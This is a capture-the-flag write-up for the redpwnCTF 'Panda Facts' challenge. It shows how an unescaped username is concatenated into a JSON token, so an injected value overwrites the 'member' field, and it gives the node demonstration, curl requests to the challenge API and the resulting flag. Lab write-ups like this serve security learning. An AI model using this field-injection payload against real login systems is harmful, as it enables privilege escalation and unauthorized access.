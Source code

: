 # Panda Facts

We have control over the username, and if we modify it we can change the JSON string that's parsed, overwriting the earlier values.

```javascript
╭─zoey@nomadic ~/sec/redpwnctf/panda-facts 
╰─$ node
> let INTEGRITY='12370cc0f387730fb3f273e4d46a94e5';
undefined
> let username='", "member": 1, "username": "test';
undefined
> let parsedToken = JSON.parse(`{"integrity":"${INTEGRITY}","member":0,"username":"${username}"}`)
undefined
> JSON.stringify(parsedToken);
'{"integrity":"12370cc0f387730fb3f273e4d46a94e5","member":1,"username":"test"}'
```

Now we just have to throw our test value into the web requests

```shell-session
╭─zoey@nomadic ~/sec/redpwnctf/panda-facts 
╰─$ curl 'https://panda-facts.2020.redpwnc.tf/api/login' \
  -H 'content-type: application/json' \
  --data-binary '{"username":"\", \"member\": 1, \"username\": \"test"}' \
  
{"token":"UK4cRIQoC6CqgCXpQeQIyU6V0PL6UZ+P/XEROuEd2XqqG77e6Op7ittY2dy0oUppbiLf1hBSSiyq+aWAViCIodkoXy8C+kxL+sSrxZN1fioY3lL8qBvOr3A4u1U/weNoMlXv6k7Y3yJt9BbzMfdsrA=="}                     
╭─zoey@nomadic ~/sec/redpwnctf/panda-facts 
╰─$ curl 'https://panda-facts.2020.redpwnc.tf/api/flag' \
 -H 'cookie: token=UK4cRIQoC6CqgCXpQeQIyU6V0PL6UZ+P/XEROuEd2XqqG77e6Op7ittY2dy0oUppbiLf1hBSSiyq+aWAViCIodkoXy8C+kxL+sSrxZN1fioY3lL8qBvOr3A4u1U/weNoMlXv6k7Y3yJt9BbzMfdsrA=='  
{"success":true,"flag":"flag{1_c4nt_f1nd_4_g00d_p4nd4_pun}"}
```

